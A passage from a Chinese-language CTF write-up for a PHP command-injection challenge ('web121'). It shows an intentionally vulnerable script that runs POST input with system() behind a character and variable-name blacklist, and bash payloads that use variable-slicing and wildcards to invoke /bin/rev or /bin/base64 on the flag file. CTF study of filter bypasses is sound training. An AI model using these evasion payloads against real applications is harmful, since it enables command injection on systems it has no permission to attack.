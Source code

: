 ````
```

官方payload:

```bash
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

官方wp这里的 `$USER` 代表的变量最后一位是 `a` ,题目也没提示。。。

这里 `PWD` 不是`/root` ,要不然就可以

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${PWD:~A}
```

## web121~通配符构造 /bin/rev

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

有多过滤了几个linux变量.

首先这里 把 `$SHLVL`   给 ban 了，那我们就得找其他的 1 个长度的变量。

>  $?     最后运行的命令的结束代码（返回值）即执行上一个指令的返回值 (显示最后命令的退出状态。0表示没有错误，其他任何值表明有错误) 	
>
>  $#      添加到Shell的参数个数
>
> 详情： https://blog.csdn.net/helloxiaozhe/article/details/80940066

`${#?}` 、 `${##}` 都可以代表 1 

题目 `$PWD` 变量不知又是代表的啥。

题目 wp： 构造 `/bin/rev`

```
${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
# /???/r??
```

flag出来之后继续rev 反转一下就可以了。

````